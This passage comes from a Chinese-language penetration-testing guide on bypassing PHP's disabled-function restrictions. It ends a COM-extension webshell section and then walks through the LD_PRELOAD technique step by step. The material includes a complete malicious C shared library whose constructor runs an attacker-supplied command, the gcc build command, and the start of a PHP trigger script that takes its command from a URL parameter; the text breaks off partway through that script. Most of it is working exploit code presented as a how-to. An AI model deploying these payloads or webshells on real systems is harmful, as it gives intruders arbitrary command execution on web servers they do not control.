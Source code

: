         }
    } else {
        echo "COM extension is not loaded.";
    }
    ?>
    ```
    访问 `payload.php?cmd=whoami` 即可执行命令。

### 2. LD_PRELOAD (Linux)

*   **概述 (Overview):** `LD_PRELOAD` 是 Linux 动态链接器的一个环境变量。它允许用户指定在程序启动时优先加载的共享库 (`.so` 文件)。通过加载一个恶意的共享库，可以覆盖（劫持）目标进程将要调用的库函数（如 `getuid`），在被劫持的函数中执行任意代码。
*   **工作原理 (Working Principle):**
    1.  **编写恶意共享库 (`.so`):** 使用 C 语言编写一个共享库，其中包含一个与目标进程将要调用的函数同名的函数（如 `getuid`）。在这个自定义函数内部，执行我们想要执行的命令，并通常使用 `unsetenv("LD_PRELOAD")` 清除环境变量以防无限循环。
    2.  **利用 `__attribute__((constructor))`:** 更通用的方法是利用 GCC 的 `__attribute__((constructor))` 特性。标记为此属性的函数会在共享库被加载时（早于 `main` 函数执行）自动执行。这样就不需要精确劫持某个特定函数。
    3.  **设置环境变量:** 使用 PHP 的 `putenv()` 函数设置 `LD_PRELOAD` 环境变量，指向我们上传的恶意 `.so` 文件路径。
    4.  **触发子进程:** 调用一个能够 fork 出子进程的 PHP 函数，如 `mail()` 或 `error_log()`。当子进程启动时，它会继承父进程的环境变量，动态链接器会根据 `LD_PRELOAD` 加载我们的恶意 `.so` 文件，从而执行其中的代码。
*   **利用条件 (Exploitation Conditions):**
    *   Linux 操作系统。
    *   `putenv()` 函数可用。
    *   至少有一个能触发子进程的函数可用 (如 `mail()`, `error_log()`, `imagick` 扩展处理某些图片等)。
    *   目标网站有可写的目录，允许上传编译好的 `.so` 文件。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    1.  **编写 `evil.c`:**
        ```c
        #include <stdlib.h>
        #include <unistd.h> // 如果需要 getuid 等

        // 可选：如果想劫持特定函数（例如 mail() 调用的 getuid）
        // uid_t getuid(void) {
        //     unsetenv("LD_PRELOAD");
        //     system("echo 'Hooked getuid!' > /tmp/ld_preload_success.txt");
        //     system(getenv("_evilcmd")); // 通过另一个环境变量传递命令
        //     return geteuid(); // 返回原始函数应该做的事
        // }

        // 推荐：使用 constructor，更通用
        __attribute__((constructor)) void evil_constructor() {
            unsetenv("LD_PRELOAD"); // 清除环境变量防止影响后续进程
            const char* cmd = getenv("_evilcmd"); // 从环境变量获取命令
            if (cmd != NULL) {
                system(cmd);
            } else {
                system("echo 'LD_PRELOAD success but _evilcmd not set' > /tmp/ld_preload_fallback.txt");
            }
        }
        ```
    2.  **编译 `.so` 文件:**
        ```bash
        gcc -shared -fPIC -o evil.so evil.c 
        ```
        (`-shared` 生成共享库, `-fPIC` 生成位置无关代码)
    3.  **编写 `trigger.php`:**
        ```php
        <?php
        // 获取要执行的命令，例如从 GET 参数
        $command = $_GET['cmd']; 
        if (empty($command)) {
            $command = "id"; // 默认命令
        }
